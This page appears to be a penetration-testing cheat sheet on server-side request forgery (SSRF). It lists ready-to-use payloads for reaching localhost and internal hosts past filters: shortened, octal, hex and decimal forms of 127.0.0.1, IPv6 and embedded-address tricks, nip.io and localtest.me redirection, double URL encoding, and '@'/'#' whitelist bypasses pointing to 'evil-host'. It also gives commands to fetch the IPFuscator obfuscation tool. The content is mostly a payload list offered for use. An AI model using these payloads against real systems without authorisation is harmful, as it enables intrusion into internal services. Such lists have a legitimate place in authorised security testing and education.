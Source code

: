 # SSRF (I)

In this module we will show some payloads for testing a field that may be potentially vulnerable to SSRF. We will only use the HTTP/S protocol.

## Payloads (localhost)

* We can also **abbreviate IP addresses** by removing zeros:

```bash
0 # 127.0.0.1
127.1
127.0.1
0.0.0.0
0000
```

* Abusing **IPv6** to bypass filters:

```bash
[::]
[::]:80
0000::1
0000::1:80
```

* With **CIDR format** we can bypass filters, especially for whitelists that only allow 127.0.0.1:

```bash
127.127.127.127
127.0.1.3
127.0.0.0
```

* **IPv6/IPv4 address embedding** is useful when both IPv4 and IPv6 are blacklisted but misconfigured:

```bash
[0:0:0:0:0:ffff:127.0.0.1]
```

* With decimal IP location:

```bash
0177.0.0.1
0177.1
017700000001
0x7f.1
2130706433
```

* Take advantage of **domain redirection**, which is useful when all IP addresses are blacklisted:

```bash
localtest.me
127.0.0.1.nip.io
test.app.127.0.0.1.nip.io
test-app-127-0-0-1.nip.io
test.app.127.0.0.1.xip.io
```

* If the servers interpret the **attached alphanumeric characters** as normal, we can use them:

```
①②⑦.⓪.⓪.①
⓵⓶⓻.⓪.⓪.⓵
```

{% hint style="danger" %}
It should be noted that these are not all the combinations you can make with IP 127.0.0.1
{% endhint %}

## Payloads (IP)

In addition to the above possible combinations that we can make with a normal IP address, we should also consider using the following tool, [IPFuscator](https://github.com/vysecurity/IPFuscator):

```bash
git clone https://github.com/vysecurity/IPFuscator
cd IPFuscator
python2 ipfuscator.py <IP>
```

## Others bypass

* **Double URL encoding**: It is possible that the host part is not the problem, but the resource it is pointing to. Example:

```bash
http://127.0.0.1/admin # Not work
http://127.0.0.1/%2561dmin # Hide "admin" with double URL encode.
```

* Skip whitelist that allows only a certain host:

```bash
https://expected-host@evil-host/<PATH> # Number 1
https://evil-host#expected-host/<PATH> # Number 2
https://evil-host%25%32%33@expected-host/<PATH> # Number 3 (%25%32%33 = #)
```

* You can take advantage of the DNS name hierarchy to place the required entry in a fully qualified DNS name that you control:

```
https://expected-host -> https://expected-host.evil-host
http://holo.live -> http://holo.live.localtest.me/
```
